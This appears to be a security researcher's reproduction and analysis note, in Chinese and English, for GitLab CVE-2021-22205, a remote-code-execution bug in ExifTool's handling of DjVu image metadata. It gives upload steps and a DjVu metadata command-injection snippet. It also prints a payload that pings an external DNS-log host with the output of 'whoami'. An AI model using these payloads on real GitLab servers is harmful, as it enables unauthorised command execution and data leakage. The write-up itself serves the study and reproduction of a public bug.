 ```yaml
---
layout: about
category: about
Researchname: GitLab snippet RCE
toc: true
permalink: /about/Gitlab-RCE-with-snippet-function/
author: Bin4xin
desc: 「Gitlab」
---
```


### 复现

- Create a new snippet
- 登录创建一个仓库，并且创建新的`snippet`
- In the description field, hit "Attach a file"; Select and uplaod echo_vakzz.jpg
- [`echo_vakzz.jpg`](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Gitlab/CVE-2021-22205/echo_vakzz.jpg)上传附件
- See that the file /tmp/vakzz has been created on the server

也可以通过未授权RCE，具体可以查看[(CVE-2021-22205)RCE - 七、手工复现-未授权](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}

> 制作rce图片可直接编辑，修改下面的代码就好；或者上面的文章中
>
> **[六、手工复现-有授权 - 2 DjVu格式图片制作方式]**
>
> 也有相应的制作方法。

```ruby
qx{ping `whoami`.5pxha.i3ntq7.bnslog.top}
```

### 效果

![May-18-2022-11-27-15.gif](https://image.yjs2635.xyz/images/2022/05/18/May-18-2022-11-27-15.gif)

### 分析

如作者在报告里所说：

- When uploading image files, GitLab Workhorse passes any files with the extensions [jpg|jpeg|tiff](https://gitlab.com/gitlab-org/gitlab/-/blob/v13.10.2-ee/workhorse/internal/upload/exif/exif.go#L104) through to ExifTool to remove any non-whitelisted tags.
- 上传图像文件时，`GitLab Workhorse` 会将任何扩展名为 `jpg|jpeg|tiff` 的文件传递给 `ExifTool`，以删除任何未列入白名单的标签。

```go
func IsExifFile(filename string) bool {
	filenameMatch := regexp.MustCompile(`(?i)\.(jpg|jpeg|tiff)$`)

	return filenameMatch.MatchString(filename)
}
```

- One of the supported formats is DjVu. When parsing the DjVu annotation, the tokens are evaled to "convert C escape sequences".

```perl
(metadata
	(Copyright "\
" . qx{echo vakzz >/tmp/vakzz} . \
" b ") )
```

### 参考

- [HackerOne - RCE when removing metadata with ExifTool](https://hackerone.com/reports/1154542){:target="_blank"}
- [GitLab 远程命令执行漏洞复现(CVE-2021-22205)](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}